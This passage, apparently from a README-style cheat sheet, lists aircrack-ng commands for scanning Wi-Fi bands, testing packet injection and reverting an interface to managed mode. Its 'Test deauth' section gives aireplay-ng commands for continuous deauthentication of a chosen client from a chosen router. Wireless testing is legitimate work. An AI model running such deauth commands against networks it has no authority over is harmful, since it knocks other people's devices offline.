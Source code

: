 ```
Option for 5 GHz only
```
sudo airodump-ng <wlan0> --band a
```
Option for 2.4 GHz only
```
sudo airodump-ng <wlan0> --band g
```
Set the channel of your choice
```
sudo iw dev <wlan0> set channel <channel> [NOHT|HT20]
```
```
sudo aireplay-ng --test <wlan0>
```

-----

### Test deauth

Option for 5 GHz and 2.4 GHz
```
sudo airodump-ng <wlan0> --band ag
```
Option for 5 GHz only
```
sudo airodump-ng <wlan0> --band a
```
Option for 2.4 GHz only
```
sudo airodump-ng <wlan0> --band g
```
```
sudo airodump-ng <wlan0> --bssid <routerMAC> --channel <channel of router>
```
Option for 5 GHz:
```
sudo aireplay-ng --deauth 0 -c <deviceMAC> -a <routerMAC> <wlan0> -D
```
Option for 2.4 GHz:
```
sudo aireplay-ng --deauth 0 -c <deviceMAC> -a <routerMAC> <wlan0>
```

-----

### Revert to Managed Mode

Check the wifi interface name and mode
```
iw dev
```

Take the wifi interface down
```
sudo ip link set <wlan0> down
```

Set managed mode
```
sudo iw <wlan0> set type managed
```

Bring the wifi interface up
```
sudo ip link set <wlan0> up
```

```